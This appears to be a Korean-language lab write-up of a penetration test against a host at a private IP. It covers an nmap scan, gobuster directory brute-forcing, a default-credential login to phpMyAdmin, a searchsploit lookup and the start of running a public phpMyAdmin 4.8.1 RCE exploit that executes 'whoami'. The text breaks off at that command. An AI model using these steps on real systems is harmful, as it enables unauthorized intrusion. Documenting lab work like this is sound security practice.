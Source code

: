     Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 02:55 EDT
    Nmap scan report for 172.31.249.155
    Host is up (0.013s latency).
    Not shown: 65533 closed tcp ports (reset)
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    Nmap done: 1 IP address (1 host up) scanned in 9.37 seconds
    ```
### 정보 수집 - 웹
 80번 포트가 열려있으므로 브라우저를 통해 웹 사이트를 접근하여 확인해보니 우분투 서버와 아파치를 사용한 웹사이트 확인
 
 ![alt text](image.png)

 - 웹 서버의 기술 스택, robots.txt 등을 확인하였으나 자세한 정보를 얻을 수 없었기에 gobuster를 사용하여 웹 디렉토리 브루트포싱을 진행하니 /phpmyadmin 발견
    ```sh
    gobuster dir -u http://172.31.249.155 -w /usr/share/dirb/wordlists/common.txt

    [...]

    /phpmyadmin           (Status: 301) [Size: 321] [--> http://172.31.249.155/phpmyadmin/]
    ```
 - phpmyadmin 페이지에 접근시 로그인 페이지 확인

    ![alt text](image-1.png)

 - phpmyadmin 페이지에 php 기본 어드민 id:password 입력하여 로그인 시도

    ![alt text](image-2.png)

 - 로그인 성공 후 페이지 확인 결과 phpmyadmin 버전 확인

    ![alt text](image-3.png)

### 취약점 진단
 phpmyadmin 4.8.1버전 취약점 확인 결과 RCE 취약점 발견
    ```sh
    searchsploit phpmyadmin 4.8.1

    ---------------------------------------------------------------------------------------
    Exploit Title                                                  |  Path
    ---------------------------------------------------------------------------------------
    phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)     | php/webapps/44924.txt
    phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)     | php/webapps/44928.txt
    phpMyAdmin 4.8.1 - Remote Code Execution (RCE)                  | php/webapps/50457.py
    ---------------------------------------------------------------------------------------
    Shellcodes: No Results
    ```

### 호스트 초기 침투
 - RCE 취약점을 통한 공격 테스트 진행 및 개념증명 성공
    ```sh
    python3 50457.py 172.31.249.155 80 /phpmyadmin root password whoami
